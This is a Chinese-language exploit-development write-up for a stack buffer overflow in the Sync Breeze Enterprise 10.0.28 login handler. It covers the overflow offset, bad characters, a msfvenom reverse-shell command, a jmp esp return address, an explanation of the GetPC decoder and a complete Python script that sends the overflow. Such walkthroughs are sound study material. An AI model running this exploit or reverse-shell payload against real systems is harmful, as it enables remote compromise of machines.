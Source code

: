 ```yaml
---
layout: default
---
```


# Sync Breeze Enterprise 10.0.28 栈溢出漏洞分析
## 1.确定溢出位置


> syncbrs.exe 使用http post进行登录请求时未判断username长度进行字符串拷贝操作,从而导致栈溢出.

>  1.1: 分配了30CH的栈空间用于存储数据，然后使用EAX将栈空间地址传递给解析函数.

![在这里插入图片描述](./Sync_Breeze_Enterprise_10.0.28_Remote_Buffer_Overflow_res/46203376cde14417b64e965ff0f9adce.jpeg#pic_center)

>  1.2： 调用libpal.dll中的GetField解析参数取出username并复制到指定栈地址空间上.(**此处产生溢出**)

![在这里插入图片描述](./Sync_Breeze_Enterprise_10.0.28_Remote_Buffer_Overflow_res/bc8f65b6f09e43f29c436e4cc109e981.jpeg#pic_center)
 ## 2. 生成shellcode
 

	大概流程如下:
```
2.1 根据上面分析其实己经得知分配的栈空间=30CH. (shellcode前填充字节数己确定)
2.2 确定一下bad characters: \x00\x0a\x0d\x25\x26\x2b\x3d
2.3 使用msfvenom 生成shellcode:
-----------------------------------
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```


## 3. 查找一个jmp esp地址

> 大概流程如下:

```
3.1 找到所有载入模块
3.2 遍历每一个模块IMAGE_OPTIONAL_HEADER中DllCharacteristics不能使用ASLR
3.3 查找是否包含jmp esp的opcode: FFE4
3.4 找到的地址是否包含bad characters,如果包含则不能使用
----------------------------------
libspp.dll 0x10090c83地址符合所有条件.
```
## 4.注入

> <font color=red>注意:</font> 
>	生成shellcode为了不使用bad characters而使用了编码,那自然需要解码.
>而解码代码需要知道需要解码的代码所在地址,这里需要使用到GetPC.
>
解码代码如下:
```nasm
mov 	edi,46BD1770h
fcmovu 	st,st(6)		
fnstenv	[esp-0Ch]		;保存fpu环境
pop 	esi				;得到fcmovu这条指令执行的地址
sub 	ecx,ecx
mov 	cl,52h
xor 	dword ptr [esi+12h],edi
sub		esi,0FFFFFFFCh
....
```
> fnstenv指令会将以下的结构体数据保存在堆栈上: 
> 其中FIP保存了上一条FPU指令的地址,本例中为:fcmovu
> ![在这里插入图片描述](./Sync_Breeze_Enterprise_10.0.28_Remote_Buffer_Overflow_res/6b2d00fc049c478e8cbf1f785c236789.jpeg#pic_center)

> 既然fnstenv会使用栈空间,那么可能会对注入的shellcode产生影响.
> 所以这里需要对内存进行一些处理,这里使用nop.![在这里插入图片描述](./Sync_Breeze_Enterprise_10.0.28_Remote_Buffer_Overflow_res/a231719354df475dac26345dfb3b7eec.jpeg#pic_center)
> 
> <font color=red>栈空间加了12个nop来处理,虽然01aa7468地址处的数据还是被覆盖了,但是这里的代码己经执行过了,所以不会有影响</font>

## 5.总结

```
主要是注意一下生成的shellcode使用的GetPC是哪种方式,注意栈空间是否会被破坏. 
```

## 注入代码参考

```python
#!/usr/bin/python
import socket
import sys

try:
  server = sys.argv[1]
  port = 80
  filler = b"A" * 780
  eip = b"\x83\x0c\x09\x10" #0x10090c83  
  offset = b"C" * 4
  nops = b"\x90" * 12
  shellcode = b"........................."

  shellcode+= b"D" * (1500 - len(filler) - len(eip) - len(offset) - len(shellcode))
  inputBuffer = filler + eip + offset + nops + shellcode
  content = b"username=" + inputBuffer + b"&password=A"

  buffer = b"POST /login HTTP/1.1\r\n"
  buffer += b"Host: " + server.encode() + b"\r\n"
  buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
  buffer += b"Referer: http://10.11.0.22/login\r\n"
  buffer += b"Connection: close\r\n"
  buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
  buffer += b"\r\n"
  buffer += content

  print("Sending evil buffer...")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buffer)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")

```
